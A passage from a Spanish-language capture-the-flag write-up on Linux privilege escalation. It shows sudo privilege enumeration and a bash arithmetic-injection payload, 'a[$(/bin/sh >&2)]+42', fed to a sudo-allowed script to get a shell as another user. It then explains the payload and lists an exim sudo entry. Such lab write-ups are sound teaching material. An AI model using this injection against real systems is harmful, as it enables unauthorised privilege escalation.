 
## Sudoers Privileges - `script.sh`

Inicialmente comprobaremos los privilegios `sudo` para este nuevo usuario

~~~ bash
darksblack@5c050710a415:/home/maci$ sudo -l
sudo -l
Matching Defaults entries for darksblack on 5c050710a415:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User darksblack may run the following commands on 5c050710a415:
    (maci) NOPASSWD: /home/maci/script.sh
~~~


## Shell as `maci` - Bash `eq`

Podemos ejecutar el `script.sh` que descubrimos anteriormente, por lo que ahora intentamos elevar nuestro privilegio usando `sudo`

~~~ bash
darksblack@5c050710a415:/home/maci$ sudo -u maci ./script.sh

Adivina: a[$(/bin/sh >&2)]+42
$ whoami
maci
$ id
uid=1000(maci) gid=1000(maci) groups=1000(maci)
~~~

Recordemos que el payload que usamos es el siguiente

~~~ bash
a[$(/bin/sh >&2)]+42
~~~

- `a[]`: Estamos haciendo una llamada a un array `a`
- `$()`: Usamos esta sintaxis para referirnos a un comando a nivel de sistema
- `/bin/sh >&2`: Lanza una `bash` y redirige la salida estándar al `stderr`, esto no afecta al funcionamiento de la consola

Entendiendo cada parte del payload, estaríamos ejecutando una `sh` en el valor de entrada del script. 

- Para volver a una consola de `bash`, simplemente escribimos `bash`


## Sudoers Privileges - `exim`

Listaremos los privilegios `sudo` que tenemos asignados para el usuario actual

~~~ bash
maci@5c050710a415:~$ sudo -l

Matching Defaults entries for maci on 5c050710a415:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User maci may run the following commands on 5c050710a415:
    (pepe) NOPASSWD: /usr/sbin/exim
~~~
